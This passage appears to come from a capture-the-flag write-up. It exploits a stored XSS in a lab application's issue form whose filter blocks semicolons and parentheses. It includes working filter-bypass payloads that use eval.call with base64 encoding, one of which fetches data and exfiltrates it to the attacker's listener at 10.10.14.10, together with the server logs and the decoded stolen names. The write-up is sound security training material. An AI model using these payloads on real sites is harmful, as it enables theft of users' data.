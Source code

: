 The first `<>` tag is replaced with `""`, this only happens once since it's not in a loop.
Other then that, a bunch of words and characters are also filtered. The big thing here is the semi-colon as it removes most of the "standard" ways to steal cookies.

To test if we can get this XSS to work, I use this simple payload and wait for callbacks.
`<replace-me><img sRc="http://10.10.14.10?c=hello.xss" />`

```
➜  extension python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.14.10 - - [08/Sep/2022 14:28:28] "GET /?c=hello.xss HTTP/1.1" 200 -
10.10.11.171 - - [08/Sep/2022 14:30:32] "GET /?c=hello.xss HTTP/1.1" 200 -
```

Now we just need to figure out what to steal, and how to do it. 


### Step 4
Here we have a few rules to follow, no parentheses and no semi colons. Googling around for _XSS without parentheses_ I come across [this gold mine](https://github.com/RenwaX23/XSS-Payloads/blob/master/Without-Parentheses.md) or different XSS payloads. With a lot of trial and error and over 100+ tries later I finally succeed to find a payload that allows me to `fetch()` with my XSS:
```bash
## Payload to b64 encode
fetch('http://10.10.14.10/just-fetch')

## Issues body
<remove-me><img sRc="e" onerror=eval.call`${"eval\x28atob`ZmV0Y2goJ2h0dHA6Ly8xMC4xMC4xNC4xMC9qdXN0LWZldGNoJykK`\x29"}`>

## HTTP Server
10.10.11.171 - - [09/Sep/2022 14:30:53] "GET /just-fetch HTTP/1.1" 404 -
```

Expanding on the PoC I try to fetch the content of text file that I host, and then fetch again to "send" the data base64 encoded in the URL.
```bash
➜  extension echo "fetch('http://10.10.14.10/employees.txt').then(response => response.text()).then(data => fetch('http://10.10.14.10/'+btoa(data)))" | base64
ZmV0Y2goJ2h0dHA6Ly8xMC4xMC4xNC4xMC9lbXBsb3llZXMudHh0JykudGhlbihyZXNwb25zZSA9
PiByZXNwb25zZS50ZXh0KCkpLnRoZW4oZGF0YSA9PiBmZXRjaCgnaHR0cDovLzEwLjEwLjE0LjEw
LycrYnRvYShkYXRhKSkpCg==

## Issues body
<remove-me><img sRc="e" onerror=eval.call`${"eval\x28atob`ZmV0Y2goJ2h0dHA6Ly8xMC4xMC4xNC4xMC9lbXBsb3llZXMudHh0JykudGhlbihyZXNwb25zZSA9PiByZXNwb25zZS50ZXh0KCkpLnRoZW4oZGF0YSA9PiBmZXRjaCgnaHR0cDovLzEwLjEwLjE0LjEwLycrYnRvYShkYXRhKSkpCg==`\x29"}`>

## HTTP Server
10.10.11.171 - - [09/Sep/2022 15:28:29] "GET /Q2hhcmxpZSBSb29wZXIKSmVhbiBDYXN0dXgKVGhpZXJyeSBIYWxsaWRheQo= HTTP/1.1" 404 -

➜  extension echo "Q2hhcmxpZSBSb29wZXIKSmVhbiBDYXN0dXgKVGhpZXJyeSBIYWxsaWRheQo=" | base64 -d
Charlie Rooper
Jean Castux
Thierry Halliday
```
